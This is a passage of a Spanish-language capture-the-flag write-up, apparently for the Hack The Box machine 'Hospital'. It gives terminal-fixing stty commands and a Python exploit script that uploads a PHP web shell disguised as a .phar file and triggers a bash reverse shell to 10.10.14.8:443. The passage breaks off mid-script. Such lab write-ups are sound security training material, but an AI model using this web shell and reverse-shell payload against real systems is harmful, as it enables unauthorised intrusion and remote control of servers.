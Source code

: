 Cambiamos el número de filas y columnas a la normal de nuestro sistema:

```
stty size
```

```
stty rows <filas> columns <columnas>
```

![access](Imagenes/50.png)

### CREACIÓN DE UN EXPLOIT CON PYTHON PARA AUTOMATIZAR EL ACCESO AL SUBSISTEMA LINUX [EXTRA]

```python
#!/usr/bin/env python3

import signal
import pdb 
import requests
import sys

from pwn import *
from termcolor import colored

# CTRL + C
def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) > 1:
    log.failure("Uso: python3 %s" % sys.argv[0])
    sys.exit(1)
    

# Variables Globales

Cookies = {'PHPSESSID': 'qes6ejpp8pp38r0fahpt62kbkm'}
lport = 443

# Funciones

def fileupload():
    main_url = "http://hospital.htb:8080/upload.php"
    filecontent = """<?php echo fread(popen($_GET['cmd'], "r"), 10000); ?>"""
    file = {'image': ("cmd.phar", filecontent)}

    r = requests.post(main_url, cookies=Cookies, files=file)

def reverse_shell():
    file_url = "http://hospital.htb:8080/uploads/cmd.phar?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'"
    r = requests.get(file_url, cookies=Cookies)

if __name__ == '__main__':

    fileupload()

    try:
        threading.Thread(target=reverse_shell, args=()).start()
    except Exception as e:
```